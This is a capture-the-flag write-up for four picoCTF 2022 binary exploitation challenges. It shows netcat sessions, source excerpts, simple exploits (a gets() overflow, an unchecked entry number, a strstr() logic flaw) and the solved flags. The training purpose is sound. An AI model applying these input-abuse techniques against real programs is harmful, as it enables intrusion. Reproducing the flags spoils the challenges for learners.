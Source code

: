 ```yaml
---
title: "picoCTF 2022 - Binary Exploitation"
excerpt: "Writeup for the picoCTF 2022 - Binary Exploitation category"
last_modified_at: 2022-04-04
stickies: true
stickies_path: "/assets/stickies/picoctf.png"
toc: true
toc_label: "Challenges"
toc_sticky: true
categories:
  - Writeups
tags:
  - picoCTF
---
```


## Binary Exploitation
### basic-file-exploit
`100 points` `5148 solves`

> The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!<br>
> Connect to the program with netcat:<br>
> `$ nc saturn.picoctf.net 54047`<br>
> The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/537/program-redacted.c).

The program first shows the menu for its function, to create or read entries in the database.

```text
1: create entry in database
2: read entry in database according to entry number
3: exit program
```

Scrolling through the source code reveals that the entry number `0` should give the flag.

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
}
```

Since at least one entry must exist before it is allowed to input an entry number to read, a dummy entry was created first then the entry number `0` was inputted to the program, the flag is then returned.

```bash
└─$ nc saturn.picoctf.net 54047
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
test
test
Please enter the length of your data:
4
4
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
```

Flag: `picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}`

<br>

### buffer overflow 0
`100 points` `4424 solves`

> `gets`<br>
> Smash the stack<br>
> Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using:<br>
> `nc saturn.picoctf.net 51091`

```bash
└─$ nc saturn.picoctf.net 51091
Input: AAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

Flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}`

<br>

### CVE-XXXX-XXXX
`100 points` `5009 solves`

> Enter the CVE of the vulnerability as the flag with the correct flag format: `picoCTF{CVE-XXXX-XXXXX}` replacing XXXX-XXXXX with the numbers for the matching vulnerability.<br>
> The CVE we're looking for is the first recorded remote code execution (RCE) vulnerability in 2021 in the Windows Print Spooler Service, which is available across desktop and server versions of Windows operating systems. The service is used to manage printers and print servers.

Google searched with the keyword “Windows Print Spooler Service RCE” and the CVE number was returned.

Flag: `picoCTF{CVE-2021-34527}`

<br>

### RPS
`200 points` `2607 solves`

> Here's a program that plays rock, paper, scissors against you. I hear something good happens if you win 5 times in a row.<br>
> Connect to the program with netcat:<br>
> `$ nc saturn.picoctf.net 56981`<br>
> The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/444/game-redacted.c).

The source code revealed that the checking mechanism of whether the player won is by `strstr(<PLAYER_INPUT>, <OPTION_THAT_BEATS_COMPUTER>)`. In other words, the program checks whether the option that can be the computer exists in the string inputted by the user.

```c
char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
...
int computer_turn = rand() % 3;
printf("You played: %s\n", player_turn);
printf("The computer played: %s\n", hands[computer_turn]);

if (strstr(player_turn, loses[computer_turn])) {
  puts("You win! Play again?");
  return true;
} else {
  puts("Seems like you didn't win this time. Play again?");
  return false;
}
```

To exploit the mechanism, the user input `rockpaperscissors` was used for 5 times and it won all the games as it contained all of the available options, that when the program searches for the option string that can beat the computer, it definitely exists in the user input. The flag was hence returned.

```bash
Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: rock
You win! Play again?
Congrats, here's the flag!
picoCTF{50M3_3X7R3M3_1UCK_C85AF58A}
```

Flag: `picoCTF{50M3_3X7R3M3_1UCK_C85AF58A}`

<br>
